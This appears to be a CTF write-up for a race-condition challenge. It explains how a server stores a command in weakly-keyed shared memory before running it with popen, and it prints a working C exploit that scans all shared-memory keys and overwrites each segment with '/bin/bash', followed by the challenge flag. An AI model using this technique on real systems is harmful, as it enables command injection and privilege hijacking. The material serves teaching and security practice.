






First time solving a race condition / shared memory CTF challenge.

<!--more-->


## Reverse Engineering

Login to the instance, and download the challenge binary. Open it up in ghidra shows



### What is happening

1. Store command in shared memory obtained by using a weak shmid.



2. Display a loader for about 1.5 secs



3. Retrieve command from shared memory.



4. `popen` it



## Exploit

The following C Code:

1. Get's handles to shared memory in the range [0, 0xfffff].
2. Writes the string to it.

```c
// exploit.c
// compile: `gcc -static  exploit.c -o exploit`

#include <string.h>
#include <sys/ipc.h>
#include <sys/shm.h>
#include <unistd.h>

#define MAX_KEY 0xFFFFF
int main() {
  for (key_t key = 0; key <= MAX_KEY; key++) {
    int shmid = shmget(key, 0, 0444);
    if (shmid != -1) {
      void *addr = shmat(shmid, NULL, SHM_W | SHM_W);
      strcpy(addr, "/bin/bash");
    }
  }
  return 0;
}
// vim:sw=2
```

Copy the exploit to the instance, and right after executing `./secure-server`, execute the `exploit`.



## Flag

The flag content is referring to [server-status challenge](../server_status)

`NHNC{WTF_NEVER_MADE_Challenges_at_night_especially_when_u_r_sleepy_daebdebb71bb43cbbcbe07893df7df53}`


